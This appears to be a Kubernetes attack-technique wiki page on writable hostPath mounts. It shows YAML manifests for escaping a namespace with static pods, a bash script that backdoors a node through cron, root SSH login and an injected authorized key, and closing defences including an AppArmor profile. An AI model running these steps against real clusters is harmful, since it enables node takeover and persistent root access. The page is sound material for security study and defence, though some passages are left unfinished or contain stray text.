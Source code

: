 # Writable hostPath mount
A hostpath mount is a directory or file from the host that is mounted into the pod. If an attacker is able to create a new container in the cluster, they may be able to mount the node's file system which can be exploited in many ways.

## Kubernetes Volumes
By design, storage within pods do not persist on reboot. Any artifacts saved to a container that are not stored in a volume will be removed when a pod is restarted. Persistent volumes are a way to store data in a pod and have it persist even if the pod is restarted. There are a few different types of volumes but the most interesting one from an attacker perspective is a hostPath volume.

A hostpath volume mounts a file or directory from the host node's filesystem into a pod. Most of the time there is no real reason for this to be done, but it can be an easy way to make things "just work".

According to the [documentation](https://kubernetes.io/docs/concepts/storage/volumes/), there are a few hostPath _types_ you can pass to the manfest when creating a hostpath:
- `""`: Empty string (default) is for backward compatibility, which means that no checks will be performed before mounting the hostPath volume.
- `DirectoryOrCreate`: If nothing exists at the given path, an empty directory will be created there as needed with permission set to 0755, having the same group and ownership with Kubelet.
- `Directory`: A directory must exist at the given path
- `FileOrCreate`: If nothing exists at the given path, an empty file will be created there as needed with permission set to 0644, having the same group and ownership with Kubelet.
- `File`: A file must exist at the given path
- `Socket`: A UNIX socket must exist at the given path
- `CharDevice`: (Linux nodes only) A character device must exist at the given path
- `BlockDevice`: (Linux nodes only) A block device must exist at the given path

## Example Attack
Lets imagine that we have somehow discovered that there is a manifest that is utilizing a hostPath mount to mount the root directory(`/`) of the node into a pod.

The manifest may look simliar to below.

```yaml
# Dangerous
apiVersion: v1
kind: Pod
metadata:
  name: vuln-nginx
  namespace: dmz
spec:
  containers:
  - name: vuln-nginx
    image: nginx
    volumeMounts:
    - name: hostmount
      mountPath: /nodeFS

  volumes:
  into the pod"
  - name: hostmount
    hostPath:
      path: /  
```

Lets assume that at some point a kubernetes admin made a `dmz` namespace and applied this vulnerable manifest to it.

![](../images/Pasted%20image%2020240331195411.png)

As an attacker we either are lucky enough to find ourselves already in the `vuln-nginx` pod, or we exec into the pod. Upon looking at the file system, we can see that the `nodeFS` directory contains the contents of the filesystem of the node running the pod. We can exploit this by utilzing [Persistence -> Static pod](./Persistence/Static_pods.md) to spawn a pod outside of the `dmz` namespace.

![](../images/Pasted%20image%2020240331195500.png)

Going back to the cluster, we can query the API server for pods in the `production` namespace by running `kubectl get pods -n production`. We can see that the yaml written to `/nodeFS/etc/kubernetes/manifests/jump2prod.yaml` was picked up by the kubelet and launched.

![](../images/Pasted%20image%2020240331195512.png)

Indeed, it seems the `jump2prod` container was created. Note that the node name was appended to our pod as discussed previously. This is great for jumping into another namespace, but from this `FINISH`

# Attack 2

Lets assume the following manifest was used to deploy an nginx server into the DMZ. Due to the houstmount giving us access to `/etc/kubernetes/` path, we will be able to take over the cluster.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: vuln-nginx 
  namespace: dmz
spec:
  containers:
  - name: vuln-nginx
    image: nginx 
    volumeMounts:
    - name: hostmount
      mountPath: /goodies

  volumes:
  - name: hostmount 
    hostPath:
      path: /etc/kubernetes/
```

In this scenario, the path `/etc/kubernetes` on the node was mounted into the pod under `/goodies`. Looking at this directory, we can see that there is indeed some configuration files for the kubelet as well as the manifests directory.

![](../images/Pasted%20image%2020240331195602.png)

With this information, we can probably create a [Persistence -> Static Pod](./Persistence/Static_pod.md). In order to exploit this, we are going to create a static pod with an additional hostmount, but this time we are going to mount the root of the node `/` into the directory `/pwnd`. To facilitate this we will create a new manifest that will perform these mounts in a pod called `ohnode`
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: ohnode 
  namespace: kube-system 
spec:
  containers:
  - name: ohnode 
    image: nginx 
    volumeMounts:
    - name: hostmount
      mountPath: /pwnd

  volumes:
  - name: hostmount 
    hostPath:
      path: /

```

To create the static pod, we simply place this manifest into the `/etc/kubernetes/manifests` directory and the kubelet will start the pod. Looks like our pod was created in the `kube-system` namespace.

![](../images/Pasted%20image%2020240331195652.png)

Lets exec into the pod. We can see that `/pwnd` exists and upon moving into it we see the `/` of the node's file system. To make things a little simpler, `chroot /pwnd` to make sure our we don't accidentially mess up our paths and put something in the wrong directory on the pod's filesystem.

Finally, lets backdoor the node with cron so that we can SSH to it. In this example, we will assume the node has cron installed and the cron service is running(by default minikube does not). To backdoor the node and ensure SSH is running, run the following commands

```bash
# Place our backdoor script into /tmp/ssh.sh
# This will be ran by cron
cat << EOF > /tmp/ssh.sh
apt update ; apt install openssh-server -y ; mkdir -p /var/run/sshd && sed -i 's/\#PermitRootLogin prohibit-password/PermitRootLogin yes/' /etc/ssh/sshd_config && sed 's@session\s*required\s*pam_loginuid.so@session optional pam_loginuid.so@g' -i /etc/pam.d/sshd ; mkdir -p ~/.ssh && touch authorized_keys ; echo "YOUR PUBLIC KEY HERE" >> ~/.ssh/authorized_keys ; /usr/sbin/service ssh restart

# Then type EOF and press enter

# Ensure the script has execute permissions
chmod +x /tmp/ssh.sh

# This will keep adding your SSH key
# you could change `>>` to `>` but that will overwrite other keys in there.
echo "* * * * * root cd /tmp && sh ssh.sh" >> /etc/cron.d/ssh
```

![](../images/Pasted%20image%2020240331195709.png)

Now, assuming cron is running on the node, wait about a minue and you should see that your public key has been added to `/root/.ssh/authorized_keys`!

Now all you need to do is ssh into the node (assuming there is no firewalls in the way): `ssh -i <key> root@<node>`

![](../images/Pasted%20image%2020240331195726.png)


# Defending
- From [microsoft](https://microsoft.github.io/Threat-Matrix-for-Kubernetes/techniques/Writable%20hostPath%20mount/):
	- Restrict over permissive containers using something such as [[admission controller]]s
	- Restrict file and directory permissions by ensuring mounts are read only
	- Restrict containers using linux security modules such as AppArmor (more details below) or [[SELinux]]
	- Ensure that pods meet defined [[pod security standards]]. Baseline or restricted will stop volume mounts.

## AppArmor
We can prevent mounting the host filesystem from the container using AppArmor profiles. This allows us to restrict container capabilities available, such as preventing file writes and mount operations used by attackers to perform container breakouts (e.g. with the [peirates](https://github.com/inguardians/peirates) Kubernetes penetration tool).
```
#include <tunables/global>

profile k8s-apparmor-example-deny-write flags=(attach_disconnected) {
  #include <abstractions/base>

  file,

  # Deny all file writes.
  deny /** w,
}
```
> Pull requests needed ❤️ 